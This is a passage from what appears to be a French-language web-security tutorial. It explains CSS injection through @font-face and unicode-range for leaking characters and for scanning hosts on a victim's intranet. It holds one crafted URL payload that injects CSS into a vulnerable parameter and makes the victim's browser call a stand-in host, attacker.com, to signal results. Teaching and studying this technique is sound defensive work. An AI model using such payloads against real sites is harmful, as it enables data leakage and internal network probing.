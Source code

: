 <figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Il faut donc continuer l'attaque jusqu'à deviner l'identifiant et qu'aucune requête ne soit reçue par l'attaquant.

Cette technique rend également possible de scanner des hôtes (adresse IP ou nom de domaine) pouvant répondre à une requête HTTP. Ici, l'attaquant souhaite par exemple savoir si un serveur HTTP est accessible sur l'intranet de la victime :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-scanner-de-ressources.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=1);unicode-range:U%2b0045;}%23attacker{font-family:attack;}&url=https://internal.vulnerable.com/
```
{% endcode %}

Si tel est bien le cas, l'attaquant ne recevra pas de requête déclenchée par l'application du style CSS.
